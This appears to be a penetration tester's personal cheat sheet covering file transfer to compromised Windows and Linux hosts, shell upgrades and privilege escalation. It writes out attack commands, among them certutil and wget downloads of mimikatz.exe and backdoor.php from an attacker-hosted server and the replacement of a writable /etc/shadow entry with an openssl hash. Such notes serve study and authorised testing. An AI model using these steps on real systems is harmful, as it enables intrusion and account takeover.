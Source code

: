   ### Transferring files to windows targets
  - JUST A NOTE FOR ME: Some Exploits from ExploitDB etc. you'll need to run twice! For example the following exploit: 39161.py (rejetto exploit) AND in this case remember to start a webserver that's hosting nc.exe!!!!
  - we can use the "certutil -urlcache -f http://x.x.x.x/mimikatz.exe mimikatz.exe" (In this example we are downloading mimikatz.exe from a python webserver)
  
  ### Transferring Files to Linux targets
  - we can use tmux if we only have one shell and cannot create tabs! You can create new tabs (ctrl+b, then c) and switch tabs with ctrl+b number
  - then we can use python to host a webserver on the source
  - we can download a file using "wget http://x.x.x.x/backdoor.php"
  
  
  ## Shells
  ### Upgrading Non-Interactive shells
  - Easiest way to identify if it's a non-interactive shell is it won't provide a "prompt" (root@xxx:)
  - bash session: /bin/bash -i
  - remember: a bash shells doesn't need to be installed!!
  - list all shells on the target: cat /etc/shells (you can choose one here, most common is "/bin/bash" or "bin/sh"
  - check is python is installed: python --version
    - spawn a python pty session: python -c 'import pty; pty.spawn("/bin/bash")'
  - check if perl is installed: perl --help
    - perl -e 'exec "/bin/bash";'
  - check if ruby is installed
    - ruby: exec "/bin/bash"
  
  ## Windows Privilege Escalation
  ### Identifying Windows Privilege Escalation Vulnerabilities
  - One of the best PrivEsc Check Script: https://github.com/itm4n/PrivescCheck
  - Go through the results and find possible escalation vectors.
  - If you find valid credentials, you can maybe use psexcec to authenticate with the credentials found in the previous step.
  
  ## Linux Privilege Escalation
  ### Weak Permissions
  - LinEnum Script can be used to identify vulnerabilities. In this section, we'll do it manually.
  - cat /etc/passwd -> identify other users on the system
  - groups -> groups we're in
  - cat /etc/groups -> List all groups
  - groups username -> list the groups a given user is a part of
  - find / -not -type l -perm -o+w (find all files all users have write permissions on)
    - look for files in the /etc/ directory. E.g. /etc/shadow -> this is really bad!!
    - if the /etc/shadow file is writeable for everyone, we can use the openssl command to create an encryped password
      - openssql passwd -1 -salt abc password
      - copy the output
      - paste it in the shadow file and replace the "*"
  